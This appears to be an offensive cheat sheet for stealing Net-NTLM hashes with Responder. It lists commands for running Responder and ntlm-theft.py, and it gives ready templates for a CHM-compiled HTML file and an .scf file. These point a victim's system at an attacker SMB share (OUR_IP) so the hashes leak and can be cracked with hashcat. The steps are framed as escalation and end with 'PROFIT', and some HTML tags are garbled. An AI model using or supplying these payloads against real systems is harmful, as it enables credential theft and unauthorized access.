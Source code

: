 ## Net-NTLM Hash stealing with Responder

## Tools synergizing with Responder: ntlm-theft.py

### Requirements: The user you want to escalate to should react with your malicious file/responder SMB server in a way that it calls back to your responder listener to dump his Net-NTLM hash to crack with hashcat.

### Usage:

#### sudo responder -I tun0 (Turn on responder)

## There are various ways to steal hashes with responder, but they have all similar philosophy behind the technique

### .LNK Files

#### 1) python3 ntlm-theft.py -g all -s OUR_IP -f FOLDER (Generates any malicious file it can make (LNK included) all inside the specified folder name)

#### 2) sudo responder -I tun0 (Start responder)

#### 3) Upload malicious file to the target SMB server/target machine (Depends on the context of the use case your are dealing with)

#### 4) PROFIT

### .CHM Files

#### 1) Create an HTML document that points to your SMB server

#### <html<
####   <body<
####     <img src=\\OUR_IP\share\WHATEVER.png /<
####        </body<
#### </html<

#### 2) On a windows machine, use the HTML Help Workshop https://www.microsoft.com/en-us/download/confirmation.aspx?id=21138

#### 3) Open HTML Help Workshop then go to: File -> New -> Project. Save at any folder you like

#### 4) In the next window, click the box to include HTML files

#### 5) Select your created HTML file here

#### 6) In the tool bar, click the compile button. Then when prompted, click compile.

#### 7) Copy your compiled .chm file to your linux machine, then upload it to your target machine.

#### 8) PROFIT!

#### .SCF File

#### 1) Create an .scf file that points to your SMB server

#### [Shell]
#### Command=2
#### IconFile=\\OUR_IP\share\pwn.ico
#### [Taskbar]
#### Command=ToggleDesktop

